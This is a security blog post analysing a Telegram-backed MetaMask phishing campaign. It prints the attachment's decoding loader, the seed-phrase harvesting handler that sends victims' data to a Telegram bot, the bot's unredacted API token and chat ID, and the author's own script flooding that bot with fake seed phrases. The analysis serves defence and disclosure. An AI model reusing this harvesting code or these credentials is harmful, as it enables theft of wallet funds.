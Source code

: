 ```yaml
---
title: "Exploring a (poorly made) Telegram-based MetaMask phishing campaign"
date: 2024-10-27T21:04:50+02:00
draft: false
tags: ["phishing"]
---
```


A few days ago, I received a pretty credible-looking MetaMask phishing email stating that my account had been locked due to an attempt to connect a new device to it. I don't use such wallet, but this sparked my interest and I decided to spend a bit of time and look into how the phishing campaign was structured.

## Email attachment

The attached HTML file `RemovedDevice.html` contained a barebones HTML structure with a bit of JS and a long Base64 encoded string which the attached script would decode and use jQuery to attach it back to the website body.

```javascript
$(document).ready(function () {
  saveFile();
});

function saveFile(name, type, data) {
  if (data != null && navigator.msSaveBlob)
    return navigator.msSaveBlob(new Blob([data], { type: type }), name);
  var a = $("<a style='display: none;'/>");

  var encodedStringAtoB = "<base64-encoded-string>";
  var decodedStringAtoB = atob(encodedStringAtoB);
  const myBlob = new Blob([decodedStringAtoB], { type: "text/html" });
  const url = window.URL.createObjectURL(myBlob);

  a.attr("href", url);
  $("body").append(a);
  a[0].click();
  window.URL.revokeObjectURL(url);
  a.remove();
}
```

The resulting webpage would display 12/15/18/21/24 input fields for a crypto wallet seed phrases of various lengths.

The backend of this campaign relied on Telegram, and to my surprise the utilized API token and chat ID weren't obfuscated in any way. Also the fact that the comments were still present in the source code indicate that the campaign was just pasted from a public template. The visible chat ID tells us that the data was being exfiltrated into a private chat as Telegram's supergroup and channel IDs would have a `-100` prefix.

```javascript
// Add your telegram token,chatid
const token = "7686154983:AAFtpdY6iTjT7UiTK6cXh0fM2T4CKfjRHl0";
const chatId = "7839331161";
```

Before sending the collected information to the Telegram chat, the JavaScript code would also make a quick GET request to get the victim's public IP and related location data. I couldn't really figure out the point of this as MetaMask is a self-custodial wallet and doesn't utilize any kind of fraud prevention system that could stop the attacker from draining the targeted account if their geolocation didn't match with the wallet's owner.

```javascript
wordForm1.addEventListener("submit", (e) => {
  e.preventDefault();
  errbox.classList.add("hide");
  let regex = /[!`@#$~%^&*()\-+={}[\]:;"'<>,.?\/|\\]/;
  let regex2 = /\d/;
  let pass = false;

  for (let i = 0; i < word12Input.length; i++) {
    if (regex.test(word12Input[i].value) || regex2.test(word12Input[i].value)) {
      pass = true;
    }
  }
  if (pass) {
    errbox.classList.remove("hide");
  } else {
    if (
      word12_1.value === "" ||
      word12_2.value === "" ||
      word12_3.value === "" ||
      word12_4.value === "" ||
      word12_5.value === "" ||
      word12_6.value === "" ||
      word12_7.value === "" ||
      word12_8.value === "" ||
      word12_9.value === "" ||
      word12_10.value === "" ||
      word12_11.value === "" ||
      word12_12.value === ""
    ) {
      btncofirm1.disabled = true;
    } else {
      preloader.classList.remove("hide");

      let data = `IP: ${ip.ip}\nRegion: ${ip.region}\nTime Zone: ${ip.timezone}\nWord 1: ${word12_1.value} \nWord 2: ${word12_2.value} \nWord 3: ${word12_3.value} \nWord 4: ${word12_4.value} \nWord 5: ${word12_5.value} \nWord 6: ${word12_6.value} \nWord 7: ${word12_7.value} \nWord 8: ${word12_8.value} \nWord 9: ${word12_9.value} \nWord 10: ${word12_10.value} \nWord 11: ${word12_11.value} \nWord 12: ${word12_12.value}`;
      postData(data);
      setTimeout(() => {
        preloader.classList.add("hide");
        noDone.classList.add("hide");
        done.classList.remove("hide");
        timer2(10);
      }, 4000);
    }
  }
});
```

## Greetings

Using the visible API token and chat ID I was able to find out a bit more about the bot itself via a `getMe` request and even send out randomly generated data to make it more difficult to detect any working seed phrases from large amount of responses:

```json
{
  "ok": true,
  "result": {
    "id": 7686154983,
    "is_bot": true,
    "first_name": "wegomakeit",
    "username": "wegomakeit_bot",
    "can_join_groups": true,
    "can_read_all_group_messages": false,
    "supports_inline_queries": false,
    "can_connect_to_business": false,
    "has_main_web_app": false
  }
}
```

```python
import random
import requests
from time import sleep
from address import generate_residential_ip
from phrase import generate_seed_phrase, bip39_words

TOKEN = "7686154983:AAFtpdY6iTjT7UiTK6cXh0fM2T4CKfjRHl0"
CHAT_ID = "7839331161"
API_BASE_URL = f"https://api.telegram.org/bot{TOKEN}"


def construct_msg(words):
    ip, region, timezone = generate_residential_ip()
    phrase = generate_seed_phrase(words, random.choice([12, 15, 18, 21, 24]))

    ip_str = f"IP: {ip}\nRegion: {region}\nTime Zone: {timezone}\n"
    phrase_str = ""

    for i, w in enumerate(phrase):
        w_str = f"Word {i + 1}: {w} \n"
        phrase_str += w_str

    return ip_str + phrase_str


def send_msg(words, chat_id):
    payload = {"chat_id": chat_id, "text": construct_msg(words)}
    res = requests.post(f"{API_BASE_URL}/sendMessage", data=payload)
    print(res.text)


words = bip39_words()

while True:
    send_msg(words, CHAT_ID)
    sleep(random.randint(1, 10))
```

I left the bot running in a Docker container for some time, and in the end I was able to send roughly 10k messages before the campaign operator revoked the API token.

Next time I get a cryptocurrency related phishing email like this, I'd like to try tracking the stolen funds by giving out the seed phrase of a fresh wallet with e.g. $5-10 USD worth of funds inside and see what kind of anti-forensic methods would the attacker utilize (although given the quality of this campaign, they'd probably just deposit immediately into a full-KYC CEX).
